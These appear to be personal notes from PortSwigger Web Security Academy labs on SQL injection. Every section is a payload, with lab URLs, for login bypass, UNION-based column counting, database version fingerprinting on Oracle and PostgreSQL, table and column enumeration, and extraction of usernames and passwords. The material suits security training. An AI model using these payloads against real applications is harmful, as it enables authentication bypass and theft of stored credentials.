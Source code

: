 Retrieve hidden data by using
 ```
' or 1=1
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

Login bypass by commenting out the password 
```
admin' --
```

Determine number of column used null or 1,2,3 sequence. Can also used 

```
' ORDER BY 1,2,3--
' union select null,null,null--
https://0aab002f04a6474080a2a97900bd0024.web-security-academy.net/filter?category=Accessories%27%20union%20select%20null,null,null--
```


Making union select the string 'GcERMy'
```
' union select null,'STRING',null--
https://0a81003d044ab76680ef4edc00bf00ef.web-security-academy.net/filter?category=Corporate+gifts%27%20union%20select%20null,%27GcERMy%27,null--
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/ec273ed4-ddca-46ce-8908-7eceb2c10fc8)



Select other tables using union sqli
```
https://0a4b004c03f7078280975d21009c00f7.web-security-academy.net/filter?category=Accessories%27%20union%20select%20username,%20password%20from%20users--

' union select username, password from users--
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/8f644657-7dca-46b8-a834-35b7cfa93448)


Concatenation  and selecting all in one line 
```
' UNION SELECT NULL, username|| '-' ||password FROM users--
```

Union select using oracle db to get version
```
' union select oracle null,banner from v$version--
https://0a70003b03e2b8c181f99d1a00d30003.web-security-academy.net/filter?category=Corporate+gifts%27union%20select%20null,banner%20from%20v$version--
```

Union select using POSTGRES
Find version
```
'union select  null,null--
'union select null,version()--
```

Select tables names
```
https://0aa700af049a156f813a161d009f0030.web-security-academy.net/filter?category=Accessories%27union+select+null,+table_name+FROM+information_schema.tables--
Accessories'union+select+null,+table_name+FROM+information_schema.tables--
```

Enumerating table column
```
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_zhnnxo'--
```

Enumerating from table
```
Accessories'union+sELECT+username_pxclfo,+password_cbbjws+from+users_zhnnxo--
```

Union select using oracle
```
Select version
Accessories' union select null, banner  from v$version--
```

Listing tables
```
Accessories' union select null, table_name from all_tables--
USERS_WNMCED
```

Listing columns from tables
```
Accessories' union select null, column_name FROM all_tab_columns WHERE table_name ='USERS_WNMCED'--
Accessories'+union+select+null,+column_name+FROM+all_tab_columns+WHERE+table_name+%3d'USERS_WNMCED'--
PASSWORD_VTSYPI USERNAME_DNIQTT
```

Selecting from tables
```
Accessories'+union+select+USERNAME_DNIQTT,+PASSWORD_VTSYPI+from+USERS_WNMCED--
```

